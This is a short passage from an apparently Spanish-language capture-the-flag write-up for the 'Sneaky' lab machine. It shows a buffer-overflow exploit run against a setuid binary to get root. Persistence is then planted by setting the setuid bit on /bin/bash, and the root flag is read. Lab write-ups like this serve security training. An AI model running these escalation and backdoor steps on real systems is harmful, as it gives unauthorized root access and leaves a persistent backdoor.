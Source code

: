 ```bash
thrasivoulos@Sneaky:/tmp$ chal $(python exploit.py) 
# whoami
root
```
Ahora procederiamos a hacer un poco de Persistencia y conseguir la flag de `root.txt`
```bash
# chmod 4775 /bin/bash
# exit

thrasivoulos@Sneaky:/tmp$ bash -p
bash-4.3# whoami
root
# cat root/root.txt
c5153d86cb175a9d5d9axxxxxxxxxxxxxx
```
Maquina Rooteada =) ! Primer Buffer Overflow con Linux x86 ! 
